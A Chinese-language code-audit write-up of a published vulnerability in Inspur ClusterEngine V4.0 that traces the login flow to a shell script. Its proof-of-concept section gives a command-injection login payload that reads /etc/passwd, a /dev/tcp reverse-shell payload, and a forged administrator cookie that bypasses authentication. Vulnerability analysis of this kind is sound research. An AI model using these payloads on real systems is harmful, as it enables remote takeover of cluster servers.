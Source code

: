 ```yaml
---
layout: help
category: help
mirrorid:  浪潮ClusterEngineV4.0代码审计历程
toc: true
permalink: /help/inspur-Cluster-Engine-V4.0-code-aduit-walkthrough/
---
```


## *CNVD-2021-39845 - 浪潮ClusterEngine V4.0存在逻辑缺陷漏洞*

- 2021年 5月21日 星期日 00时11分58秒 CST
    - 最近一直在看代码，正好前两天在网上冲浪的时候看到浪潮的一个RCE，就拿过来分析一下试试看
- 2021年 5月31日 星期一 22时55分49秒 CST
    - 上传相关代码至[*bigger-than-bigger*仓库：点击查看相关代码](https://github.com/Bin4xin/bigger-than-bigger/tree/master/CoVV/Inspur%20Cluster%20Engine%20v4/java%20code)

先看`web.xml`定义的servlet；
```xml
<servlet>
    <servlet-name>login</servlet-name>
    <servlet-class>
        com.inspur.tsce4.login.Servlet
    </servlet-class>
</servlet>
```
指向`com.inspur.tsce4.login.Servlet`类，直接去看login：`WEB-INF/classes/com/inspur/tsce4/login/Servlet`类：

```java
public class Servlet extends HttpServlet {
    public Servlet() {
    }
    public void doPost(HttpServletRequest request, HttpServletResponse response) throws ServletException, IOException {
        request.setCharacterEncoding("utf-8");
        Management manage = new Management(request, response);
        manage.doResponse();
    }
    public void doGet(HttpServletRequest request, HttpServletResponse response) throws ServletException, IOException {
        this.doPost(request, response);
    }
}
```
继承了HttpServlet，dopost方法调用Management：


```java
public class Management {
    
    HttpServletRequest request;
    HttpServletResponse response;
    Command command = new Command();

}

```
我个人不太喜欢贴大段代码，自己写着累，看的人也累，因为代码只更像是我们生活中聊天时候的互动手势，一定是辅助作用而不是表达主题；于是我便大致画了一下我理解的web认证Java代码跳转逻辑，方便理解：

![](/static/web-image/inspur-CEV4-Code-audit/inspur-code-running-logic.png)


- `command()` -> 对应是运行服务器上的`user_auth.sh`脚本：
    - [点击以查看代码](https://github.com/Bin4xin/bigger-than-bigger/blob/master/CoVV/Inspur%20Cluster%20Engine%20v4/java%20code/userAuth.sh)
    - 来看看代码主要运行逻辑，主要为以下逻辑：
    ![](/static/web-image/inspur-CEV4-Code-audit/user-auth-logic.png)

运行程序先判断传入参数个数紧 接着对第一个传入参数进行简单的特殊字符过后进行比对，代码如下：

```bash
uname echo $1 | awk -F "" '{for(i=1;i<=NF;i++){if ($i ~ /[a-zA-Z0-9_]/) {str=$i;str1=(str1 str)}}print str1}'
if [ a"$uname"b != a"$1"b ]; then
   echo the user $1 format is illegal
   echo error:1
   exit 1;
fi

#简单做了一个过滤实验，但是一对符号如() ''等都无法过滤
➜ echo a-d-c.\/ | awk -F "" '{for(i=1;i<=NF;i++){if ($i ~ /[a-zA-Z0-9_]/) {str=$i;str1=(str1 str)}}print str1}'
adc

```
其中进行算法识别的代码只能在redhat系统运行，中文环境下的redhat系统`crypt`换成`加密`即可：

`encrypt=$(passwd -S root | sed -rn 's/.* (\w+) crypt.*/\1/p')` 

<a href=""> <i class="fa fa-hand-o-down"></i></a> 

`encrypt=$(passwd -S root | sed -rn 's/.* (\w+) 加密.*/\1/p')`

```bash
➜ docker run -d hjd48/redhat
➜ docker exec -it c2739bba0d86 /bin/bash

##redhat 6国内换源
bash-4.1# cd /etc/yum.repos.d/ && mkdir tmp && mv *.repo tmp 
bash-4.1# wget -O /etc/yum.repos.d/CentOS-Base.repo https://static.lty.fun/%E5%85%B6%E4%BB%96%E8%B5%84%E6%BA%90/SourcesList/Centos-6-Vault-Aliyun.repo

##encrypt 获取过程
bash-4.1# uname -a
Linux c2739bba0d86 5.10.25-linuxkit #1 SMP Tue Mar 23 09:27:39 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
bash-4.1# cat /etc/issue
Red Hat Enterprise Linux Server release 6.3 (Santiago)
Kernel \r on an \m

bash-4.1# passwd -S root | sed -rn 's/.* (\w+) 加密.*/\1/p'
SHA512

##用户认证过程
bash-4.1# bash user_auth.sh root zanghun123
root
arootb
arootb
$6$s8LxZk5w$VUlASup50b9gmquJS6BT6YhDGHwTZThCRQeXRi12bHq8gAgxhSuqO5R7Jwm6p62lEyL4na16tG21gtBV1KaOV.
encrypt: SHA512
s8LxZk5w
passwd_shadow: $6$s8LxZk5w$VUlASup50b9gmquJS6BT6YhDGHwTZThCRQeXRi12bHq8gAgxhSuqO5R7Jwm6p62lEyL4na16tG21gtBV1KaOV.
passwd_t: $6$s8LxZk5w$VUlASup50b9gmquJS6BT6YhDGHwTZThCRQeXRi12bHq8gAgxhSuqO5R7Jwm6p62lEyL4na16tG21gtBV1KaOV.
true
```

### 0x01：远程代码执行

用户认证的逻辑基本如此，我们可以看到在web应用层针对用户的认证就是bash代码进行用户哈希值比对的结果，是以这样的参数传入：`bash user_auth.sh $username $passwd`

所以就导致了RCE，原理也十分简单，我们在web层的传入`$username 和 $passwd `两个参数可控，Linux环境下对传入参数使用符号：<code> $ ` () </code> 进行变量替换即可：

```
bash-4.1# cd touch-test/
bash-4.1# ls
bash-4.1# pwd
/tmp/touch-test
bash-4.1# $(touch id)
bash-4.1# ls
id
bash-4.1# $(id)
bash: uid=0(root): command not found
```
所以传入参数进行RCE即可；
![](/static/web-image/inspur-CEV4-Code-audit/user_auth_rce.png)

poc代码：
```
# POC测试(出现 root:x:0:0 则存在漏洞)

op=login&username=peiqi`$(cat /etc/passwd)`
{"err":"/bin/sh: root:x:0:0:root:/root:/bin/bash: No such file or directory\n","exitcode":1,"out":"the user peiqi does not exist\nerror:1\n"}

# 反弹shell
op=login&username=peiqi`$(bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F{IP}}%2F{PORT}%200%3E%261)`

```

#### 参考

- [浪潮ClusterEngineV4.0 任意命令执行](https://github.com/hhroot/2021_Hvv/blob/main/%E6%B5%AA%E6%BD%AE%20ClusterEngineV4.0%20%E4%BB%BB%E6%84%8F%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C.md
)

### 0x02：Cookie伪造登录

- `com.inspur.tsce4.Management.login() - Management.getCookie() - Management.loginOut()`

```java
public class Management {
private void getCookie() {
        String key = this.request.getParameter("name");
        JSONObject result = new JSONObject();
        Cookie[] cookies = this.request.getCookies();
        Cookie cookie = null;
        Cookie userCookie = null;
        Cookie L_TIMES_cookie = null;
        if (cookies != null) {
            for(int i = 0; i < cookies.length; ++i) {
                if (cookies[i].getName().equals(key)) {
                    cookie = cookies[i];
                } else if (cookies[i].getName().equals("username")) {
                    userCookie = cookies[i];
                } else if (cookies[i].getName().equals("L_TIMES")) {
                    L_TIMES_cookie = cookies[i];
                }
            }
        }

        if (userCookie == null && key.equals("username")) {
            userCookie = cookie;
        }

        if (clearUserList.containsKey(userCookie.getValue()) && userCookie != null && key.equals("vertifyUser")) {
            Long now = (new Date()).getTime();
            Long addTime = ((Date)clearUserList.get(userCookie.getValue())).getTime();
            if (now - addTime > 43200000L) {
                clearUserList.remove(userCookie.getValue());
            } else if (addTime - Long.parseLong(L_TIMES_cookie.getValue()) > 0L) {
                Cookie cookieAuth = new Cookie("vertifyUser", "false");
                cookieAuth.setMaxAge(43200);
                cookieAuth.setPath("/");
                cookieAuth.setHttpOnly(true);
                this.response.addCookie(cookieAuth);
                cookie = null;
            }
        }

        try {
            if (cookie != null) {
                result.put("result", "true");
                result.put("value", cookie.getValue());
            } else {
                result.put("result", "false");
            }

            JsonUtil.respnseJson(this.response, result.toString());
        } catch (JSONException var10) {
            JsonUtil.respnseJson(this.response, this.nullResJson.toString());
        }

    }
}
```

分析得：用户认证Cookie不存在随机性、时效性。所以我们可以直接伪造Cookie登入即可：`lang=cn; username=root; userType=administrator; vertifyUser=true`

![](/static/web-image/inspur-CEV4-Code-audit/user_auth_RF.png)

直接使用Cookie插件ModHeader带入Cookie，直接登入：

![](/static/web-image/inspur-CEV4-Code-audit/inspur_cookie_SF.png)

---

以上。

